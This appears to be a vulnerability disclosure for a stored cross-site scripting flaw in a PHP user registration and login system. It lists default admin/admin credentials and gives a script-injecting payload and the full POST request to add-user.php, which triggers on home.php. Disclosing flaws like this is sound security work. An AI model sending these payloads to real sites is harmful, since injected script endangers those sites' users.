

## User Registration and Login System by rems has xss (Stored XSS)

BUG_Author: hlhyp

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html


username && password : admin/admin

Vulnerability File: /endpoint/add-user.php ;/home.php


[+] payload: contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT

First:

```
POST /endpoint/add-user.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Referer: http://127.0.0.1/
Content-Length: 164
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive

contact_number=1&email=testing%40example.com&first_name=LgyxmpHT--><ScRiPt%20>alert(9221)</ScRiPt><!--&last_name=LgyxmpHT&password=u]H[ww6KrA9F.x-F&username=LgyxmpHT
```

Then access /home.php 




Causes of vulnerabilities：

When adding a user, there is omission of filtering for dangerous XSS parameters. Consequently, when a user accesses /home.php, and home.php also lacks proper filtering for hazardous XSS parameters, it leads to XSS vulnerabilities.
